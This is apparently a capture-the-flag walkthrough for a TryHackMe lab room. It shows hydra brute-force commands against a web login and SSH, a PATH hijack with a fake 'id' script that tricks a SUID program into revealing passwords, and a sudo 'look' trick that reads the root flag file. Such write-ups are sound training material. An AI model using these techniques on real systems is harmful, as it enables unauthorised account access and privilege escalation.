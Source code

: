 ## THM_Lookup
https://tryhackme.com/room/lookup

![image](https://github.com/user-attachments/assets/d267a808-be76-4ef7-85e3-dd5a371e8f83)

### 🚩User
![image](https://github.com/user-attachments/assets/a1fe0497-1056-4a48-a64b-b8931de06d7e)

![image](https://github.com/user-attachments/assets/35eb0aaf-cb55-4799-92c2-842225e1f1ac)

![image](https://github.com/user-attachments/assets/24e466d7-4de6-48a4-964c-c04c67e645c2)

According to error msg I am sure "admin" is enable.And I tried to hydra for getting admin password, but there is no credential.
So I seek for other users.
```
hydra lookup.thm -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt http-post-form "/login.php:username=^USER^&password=^PASS^:F=username" -p a
```
![image](https://github.com/user-attachments/assets/058c5430-6fe8-494a-9db9-f445c9ce0074)

```
hydra lookup.thm -l jose -P /usr/share/wordlists/rockyou.txt http-post-form "/login.php:username=^USER^&password=^PASS^:F=Wrong password"  
```
![image](https://github.com/user-attachments/assets/1642b93d-af9b-404e-997b-b2dd62718d5d)


![image](https://github.com/user-attachments/assets/95808164-ee3d-4351-bff5-521f01d460d9)
<P>
Added /etc/hosts "files.lookup.thm"

![image](https://github.com/user-attachments/assets/0f553640-3c57-4771-8cb5-bcac492d59d4)

![image](https://github.com/user-attachments/assets/843f4bc1-59bd-49f2-9794-50cf5f6f7fac)

![image](https://github.com/user-attachments/assets/048a63b0-ab9b-40e4-9774-cbb746e5c970)

![image](https://github.com/user-attachments/assets/c373fdf3-228b-4cd4-a1a6-3f31f49784a5)

とにかくいつもの豆...めぼしいものがない

![image](https://github.com/user-attachments/assets/b0ead9fb-187d-4c84-ac3e-a2b123bffca3)

![image](https://github.com/user-attachments/assets/d1d949a7-11cf-4fec-937c-700bbec7a2aa)

IDで返却されたID以下のディレクトリの下のパスワードを開くっぽし、IDにthinkをわたせばよい

```
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```
![image](https://github.com/user-attachments/assets/715f7dfa-241f-4c8f-87bf-56610095f343)

どれかが有効なパスワードなはず

```
hydra -l think -P pass.txt ssh://10.10.62.113  
```
![image](https://github.com/user-attachments/assets/b4c8692d-569e-4816-9efe-0fcff22e1a2e)


### 🚩Root
![image](https://github.com/user-attachments/assets/478feb49-1f9f-4155-a812-4bb0f64547aa)

https://gtfobins.github.io/gtfobins/look/

![image](https://github.com/user-attachments/assets/3a9a1a99-ca7a-4f46-acbe-dc4ce39c8946)

```
LFILE=/root/root.txt
sudo look '' "$LFILE"
```

いつものやつのはずが、約一年ぶりですっかり忘れており疲れた
はるがくるといいなあ
💮😄💮😄💮
